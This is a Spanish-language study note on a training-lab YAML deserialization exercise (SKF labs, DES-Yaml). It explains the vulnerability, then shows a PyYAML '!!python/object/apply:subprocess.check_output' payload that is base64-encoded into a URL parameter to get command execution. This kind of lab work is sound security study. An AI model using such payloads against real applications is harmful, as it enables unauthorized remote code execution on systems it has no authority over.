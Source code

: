 Material de ayuda
it is yaml peter murphy
------------
que es?
Un **Ataque de Deserialización Yaml** (**DES-Yaml**) es un tipo de vulnerabilidad que puede ocurrir en aplicaciones Python que usan **YAML** (**Yet Another Markup Language**) para serializar y deserializar objetos.

La vulnerabilidad se produce cuando un atacante es capaz de controlar la entrada YAML que se pasa a una función de deserialización en la aplicación. Si el código de la aplicación no valida adecuadamente la entrada YAML, puede permitir que un atacante inyecte código malicioso en el objeto deserializado.

Una vez que el objeto ha sido deserializado, el código malicioso puede ser ejecutado en el contexto de la aplicación, lo que puede permitir al atacante tomar el control del sistema, acceder a datos sensibles, o incluso ejecutar código remoto.

Los atacantes pueden aprovecharse de las vulnerabilidades de DES-Yaml para realizar ataques de denegación de servicio (DoS), inyectar código malicioso, o incluso tomar el control completo del sistema.

----------------

Skf labs/python/yaml
pip2 install pyyaml
python2.7 

tenemos un escenario donde en la url nos aparece un codigo en base 64


	root@parrot /opt/intro_hack/skf-labs/python/DES-Yaml $ echo -n "eWFtbDogVGhlIGluZm9ybWF0aW9uIHBhZ2UgaXMgc3RpbGwgdW5kZXIgY29uc3RydWN0aW9uLCB1cGRhdGVzIGNvbWluZyBzb29uIQ" | base64 -d; echo
respuesta por consola:

	*yaml: The information page is still under construction, updates coming soon!*

lo que hacemos para cargar un payload es lo siguiente:

	echo -n "yaml: Hola soy ken" | base64
respuesta
	eWFtbDogSG9sYSBzb3kga2Vu

eso lo pegamos en la url y vemos que nos aparece el texto
![[Pasted image 20250419012824.png]]
Nvim data
yaml: !!python/object/apply:subprocess.check_output ['id']

cat data | base64 -w 0; echo

Ese payload en base 64 lo pegamos en la url y PWNED! ya obtuvimos ejecucion de comandos
![[Pasted image 20250419013701.png]]